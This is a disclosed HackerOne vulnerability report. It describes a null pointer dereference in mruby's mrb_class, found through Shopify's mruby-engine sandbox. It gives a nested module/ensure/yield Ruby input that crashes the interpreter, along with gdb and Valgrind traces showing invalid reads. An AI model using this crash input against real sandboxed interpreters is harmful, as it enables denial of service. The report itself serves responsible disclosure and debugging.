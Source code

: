 # Null pointer dereference in mrb_class

## Report Details
- **Report ID**: 212107
- **URL**: https://hackerone.com/reports/212107
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-03-10T00:58:59.157Z
- **Disclosed**: 2017-03-14T21:12:28.984Z

## Reporter
- **Username**: dgaletic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The following code demonstrates a segfault in mruby and mruby-engine:

    module A module A
    ensure
        module A module A module A module A
        ensure
            module A module A module A module A module A module A
               a 
            ensure
                module A
                    yield
                end
            end end end end end end
        end end end end
    end end

The mruby crash is due to a null pointer dereference in `mrb_class` (class.h:50):

    49│   default:
    50├>    return mrb_obj_ptr(v)->c;
    51│   }

(gdb) print mrb_obj_ptr(v)
$1 = (struct RObject *) 0x0
(gdb) print v
$2 = {value = {f = 0, p = 0x0, i = 0, sym = 0}, tt = 49}

The sandbox crash happens during a call to KHASH_DEFINE (class.c:19). Examining the assembly suggests the crash happens when trying to dereference the rsi register:

(gdb) x/i $rip
=> 0x7ffff402f490 <kh_get_mt>:  mov    eax,DWORD PTR [rsi]
(gdb) p $rsi
$4 = 32

Examining mruby with Valgrind shows two invalid reads on the following line (vm.c:1867):

    if (mrb_nil_p(stack[m1+r+m2])) {
    
Valgrind output:

    ==11371== Invalid read of size 4
    ==11371==    at 0x41FCEB: mrb_vm_exec (vm.c:1867)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371==    by 0x41EEF2: mrb_vm_exec (vm.c:1651)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371==    by 0x41CAD1: mrb_vm_exec (vm.c:1132)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371==  Address 0x56271f8 is 8 bytes after a block of size 16 alloc'd
    ==11371==    at 0x4C2AB80: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
    ==11371==    by 0x4C2CF1F: realloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
    ==11371==    by 0x40F300: mrb_default_allocf (state.c:60)
    ==11371==    by 0x428156: mrb_realloc_simple (gc.c:201)
    ==11371==    by 0x4281D8: mrb_realloc (gc.c:215)
    ==11371==    by 0x4282A4: mrb_malloc (gc.c:236)
    ==11371==    by 0x419A8A: mrb_env_unshare (vm.c:259)
    ==11371==    by 0x419B33: cipop (vm.c:278)
    ==11371==    by 0x41ED8E: mrb_vm_exec (vm.c:1624)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371== 
    ==11371== Invalid read of size 4
    ==11371==    at 0x41FD1B: mrb_vm_exec (vm.c:1867)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371==    by 0x41EEF2: mrb_vm_exec (vm.c:1651)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371==    by 0x41CAD1: mrb_vm_exec (vm.c:1132)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371==  Address 0x56271f0 is 0 bytes after a block of size 16 alloc'd
    ==11371==    at 0x4C2AB80: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
    ==11371==    by 0x4C2CF1F: realloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
    ==11371==    by 0x40F300: mrb_default_allocf (state.c:60)
    ==11371==    by 0x428156: mrb_realloc_simple (gc.c:201)
    ==11371==    by 0x4281D8: mrb_realloc (gc.c:215)
    ==11371==    by 0x4282A4: mrb_malloc (gc.c:236)
    ==11371==    by 0x419A8A: mrb_env_unshare (vm.c:259)
    ==11371==    by 0x419B33: cipop (vm.c:278)
    ==11371==    by 0x41ED8E: mrb_vm_exec (vm.c:1624)
    ==11371==    by 0x41B684: mrb_vm_run (vm.c:822)
    ==11371==    by 0x42386C: mrb_run (vm.c:2570)
    ==11371==    by 0x419D40: ecall (vm.c:314)
    ==11371== 
    trace:
	    [15] crash_input:9
	    [14] crash_input:8
	    [12] crash_input:5
	    [11] crash_input:5
	    [10] crash_input:5
	    [9] crash_input:5
	    [8] crash_input:5
	    [6] crash_input:3
	    [5] crash_input:3
	    [4] crash_input:3
	    [3] crash_input:3
	    [1] crash_input:1
	    [0] crash_input:1
    LocalJumpError: unexpected yield
    ==11371== 
    ==11371== HEAP SUMMARY:
    ==11371==     in use at exit: 0 bytes in 0 blocks
    ==11371==   total heap usage: 4,735 allocs, 4,735 frees, 872,977 bytes allocated
    ==11371== 
    ==11371== All heap blocks were freed -- no leaks are possible
    ==11371== 
    ==11371== For counts of detected and suppressed errors, rerun with: -v
    ==11371== ERROR SUMMARY: 2 errors from 2 contexts (suppressed: 0 from 0)

    
As `m1`, `r` and `m2` are all 0 during the invalid reads, it seems `stack` is pointing beyond allocated memory. Note that running with Valgrind appears to change the behaviour of the program: it does not result in a segfault, raising a LocalJumpError instead.

We are still examining the bug and hope to provide a fix soon.

Test platform:
Linux Mint 17.3 (Cinnamon 64-bit), built with gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3)

mruby-engine SHA: 09be20e67888b20bebf9b0588bc3cbec7f55325f
mruby/mruby submodule SHA: 63dbed00946afda34178a479cfa38fa78d620a00

Thank you,
Dinko Galetic
Denis Kasak



## Attachments
No attachments
